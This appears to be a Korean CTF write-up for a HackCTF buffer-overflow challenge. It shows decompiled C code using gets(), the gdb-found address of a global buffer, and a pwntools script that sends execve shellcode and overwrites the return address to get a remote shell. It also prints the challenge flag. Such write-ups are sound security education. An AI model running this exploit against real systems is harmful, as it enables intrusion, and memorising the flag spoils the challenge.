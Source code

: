 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u);
  printf("input : ");
  gets(&s);
  return 0;
}
```
<strong>코드를 보면 s 변수를 14h 만큼 생성해주고, read 함수를 이용해서 name을 입력 받고, printf 함수로 출력하고, 또 gets 함수를 이용해서 s를 입력 받는 것을 볼 수 있습니다. 여기서 gets 함수로 입력값을 받고, 입력값의 대한 검증이 없기 때문에 BOF 취약점이 발생합니다. 그래서 그냥 name 변수에 쉘코드를 넣어주고, RET 값으로 name의 주소를 주면 된다.</strong><br>

```
   0x080484f4 <+41>:	push   0x804a060
   0x080484f9 <+46>:	push   0x0
   0x080484fb <+48>:	call   0x8048370 <read@plt>
```
<strong>gdb를 이용해서 name의 주소가 0x804a060라는 것을 알 수 있습니다..</strong><br>

- 시나리오

1. name 변수에 쉘 코드를 입력해준다. 쉘 코드는 그냥 검색해서 구했다.
2. BOF 취약점을 이용해서 RET를 name의 주수로 덮어준다.

```python
from pwn import * 
p = remote("ctf.j0n9hyun.xyz", 3003)

shellcode = "\x31\xC9\x8D\x41\x0B\x99\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"
p.sendafter("Name : ", shellcode)

payload = "A" * 24
payload += p32(0x804a060)
p.sendafter("input : ",payload)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python prob.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
[*] Switching to interactive mode
$ cat flag
$ cat flag
HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}
$  
```

`FLAG : HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}`

---
HackCTF Challenge : x64 Buffer Overflow
